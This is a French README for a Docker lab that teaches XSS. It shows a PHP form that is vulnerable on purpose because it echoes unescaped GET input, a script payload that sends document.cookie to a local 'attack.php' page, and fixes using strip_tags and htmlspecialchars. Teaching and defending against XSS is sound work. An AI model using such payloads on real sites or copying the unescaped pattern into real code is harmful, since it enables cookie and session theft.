 # Les failles XSS

# La faille

La faille XSS, de son nom complet Cross-Site Scripting, est une faille qui permet d'injecter du code HTML et/ou Javascript dans des variables ou bases de données mal protégées.
Que le XSS soit permanent (stocké en base de données) ou non, son fonctionnement sera le même.
Il consiste à injecter du code dans une variable ou base de données afin de faire en sorte que le site se connecte à un site distant (Cross-site) contenant un code malveillant.
Le site distant pourra donc, par exemple, accéder aux cookies stockés sur le site d'origine, la requête provenant de ce site.

Un exemple sera plus parlant qu'un long discours.

Imaginons un pirate qui identifie qu'un site inscrit des informations personnelles dans un cookie comme ceci

```php
setcookie("nom_du_cookie", "données personnelles stockées", time()+3600);
```
![](readme_docs/6df94c84.png)


Le pirate recherchera donc un formulaire vulnérable sur le site.
Si le formulaire est trouvé, il pourraît par exemple ressembler à ceci (formulaire simplifié)

```php
<?php
// Le site stocke le cookie
setcookie("information", "donnees perso", time()+3600);

// On traite le formulaire de façon non sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = $_GET['prenom'];
}
?>

<form method="get">
    <input type="text" name="prenom">
    <button>Valider</button>
</form>

<?php
    // On affiche la saisie du formulaire
    if(isset($prenom)){
        echo $prenom;
    }
```

Le pirate pourra donc insérer le code ci-dessous dans le formulaire et récupérer le contenu du cookie depuis son site distant.

```js
<script>window.location='http://localhost/faille/attack.php?cookie='+document.cookie;</script>
```


![](readme_docs/e4bbe312.png)
![](readme_docs/caa59775.png)

---

## La protection

Pour se protéger contre les failles XSS, nous avons deux solutions principales, selon le contexte :
- Supprimer tout contenu HTML de la saisie dans le formulaire
- Neutraliser les caractères formant les balises HTML

### Supprimer le contenu HTML

Si on souhaite supprimer tout le contenu HTML de ce qui est récupéré lors de la saisie, nous pourrons utiliser l'instruction "strip_tags" dont le rôle est de supprimer les balises HTML en autorisant éventuellement certaines d'entre-elles.

Le traitement de notre formulaire deviendra donc:
```php
// On traite le formulaire de façon sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = strip_tags($_GET['prenom']);
}
```

La variable "prenom" contiendra toute la saisie de l'utilisateur sans les balises "script".

### Neutraliser les caractères

Si on souhaite neutraliser les caractères formant les balises HTML de ce qui est récupéré lors de la saisie, nous pourrons utiliser l'instruction "htmlspecialchars" dont le rôle est de neutraliser certains caractères (&, ", <...) en les remplaçant par leurs codes (&amp;...) ou "htmlentities" dont le rôle est de modifier toutes les balises HTML.

Le traitement de notre formulaire deviendra donc:
```php
// On traite le formulaire de façon sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = htmlspecialchars($_GET['prenom']);
}
```

La variable "prenom" contiendra toute la saisie de l'utilisateur y compris les balises "script" qui sont "neutralisées".

---

# Lancement

docker-compose up -d

# Accès

## Vulnérable

http://localhost/faille/index.php
http://localhost/faille/attack.php

# Protection

http://localhost/protection/index.php
http://localhost/protection/attack.php